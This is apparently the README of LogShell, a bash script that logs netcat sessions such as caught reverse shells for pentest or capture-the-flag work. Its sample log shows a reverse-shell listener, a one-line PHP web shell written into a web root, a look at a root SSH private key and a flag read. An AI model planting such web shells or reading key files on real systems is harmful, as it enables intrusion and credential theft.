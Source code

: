 # 📜 LogShell 🐚

A bash script for logging network sessions established via netcat, such as reverse shells.

## Features

- Records netcat sessions with timestamped logging.
- Handles backspaces in user input for clean output.
- Supports automatic detection and logging of session initiation.
- Easy setup and usage.

## Usage

1. Clone the repository:
```bash
git clone https://github.com/BrunoRochaDev/LogShell.git
```

2. Navigate to the cloned directory:
```bash
cd LogShell
```

3. Make the script executable:
```bash
chmod +x logshell
```

4. (Optional) Move the script to a directory within your $PATH for easier access:
```bash
mv ./logshell /usr/bin
```

5. Run the script with your netcat command:
```bash
# Catching a reverse shell
logshell ncat -lnvp 1337
```

6. View the logs in /tmp/\<target-ip\>.log (log location can be customized within the script):
```
┌──(user㉿kali)-[~]
└─$ cat /tmp/127.0.0.1.log
=============================================================
Shell session initiated at: 2024-05-30 19:48:41
=============================================================
(19:48:47) $ whoami
(19:48:47) user
(19:49:20) $ ip a
(19:49:20) eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
(19:49:20)         inet 192.168.1.10  netmask 255.255.255.0  broadcast 192.168.1.255
(19:49:20)         inet6 fe80::f816:3eff:fe21:57cf  prefixlen 64  scopeid 0x20<link>
(19:49:20)         ether f8:16:3e:21:57:cf  txqueuelen 1000  (Ethernet)
(19:49:20)         RX packets 150234  bytes 20345763 (19.4 MiB)
(19:49:20)         RX errors 0  dropped 0  overruns 0  frame 0
(19:49:20)         TX packets 134567  bytes 18320456 (17.4 MiB)
(19:49:20)         TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
(19:49:50) $ echo '<?=`$_GET[1]`?>' > /var/www/html/web-shell.php
(19:51:03) exit
=============================================================
Shell session initiated at: 2024-05-30 19:53:50
=============================================================
(19:54:01) # id
(19:54:01) uid=0(root) gid=0(root) groups=0(root)
(19:56:45) # ls -la .ssh/id_rsa
(19:56:45) -rw-------. 1 root root 0 Nov 20  2023 .ssh/id_rsa
(19:57:44) # cat flag.txt
(19:57:44) FLAG{y0u_607_m3!}
```

## Future Work

- **Expand Compatibility:** Support additional clients and listeners like `socat`, `SSH` and `nc`.

- **Improve Command/Output Differentiation:** Enhance clarity between user input and listener output for better log readability.

- **Enhance TTY Formatting:** Implement better formatting to handle full TTY without artifacts.

## License
This project is licensed under the AGPLv3 License - see the [LICENSE](https://github.com/BrunoRochaDev/LogShell/blob/main/LICENSE) file for details.
